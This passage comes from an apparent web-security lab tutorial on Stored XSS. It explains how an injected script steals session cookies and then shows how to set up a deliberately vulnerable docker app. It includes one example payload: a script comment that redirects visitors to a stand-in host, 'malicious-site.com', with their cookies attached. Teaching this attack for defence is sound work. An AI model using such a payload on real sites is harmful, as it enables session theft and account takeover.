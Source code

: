#### **4. Script Executes in the User’s Browser**  
The browser processes and runs the script as part of the webpage. Since the script is treated as trusted, it can perform harmful actions like stealing cookies, modifying the page, or redirecting users.

#### **5. Information is Sent to the Attacker**  
The script may send sensitive information, such as session cookies, to the attacker’s server. This allows the attacker to take control of user accounts or perform further attacks.


### **Example Scenario**

A web application allows users to leave comments on blog posts. However, the comment input is stored directly in the database and displayed on the page without sanitization.

#### **Attack Process**
1. An attacker submits the following comment:
   ```html
   <script>document.location='https://malicious-site.com/steal?cookie=' + document.cookie</script>
   ```
2. The comment is stored in the application's database.
3. When other users view the post, their browsers execute the script, sending their session cookies to the attacker's site.

Now we will see a web application which is vulnerable to Stored XSS.

First pull the docker image of the web application.

```bash
docker pull fazlulkarim105925/stored_xss_app:latest
```

Run the docker container.

```bash
docker run -d -p 8000:8000 fazlulkarim105925/stored_xss_app:latest
```

Create a `Laodbalancer` in `Poridhi's Cloud` with `eth0` ip and port `8000`.

To find the `eth0` ip address, run the following command.

```bash
ifconfig
```
![](./images/10.png)
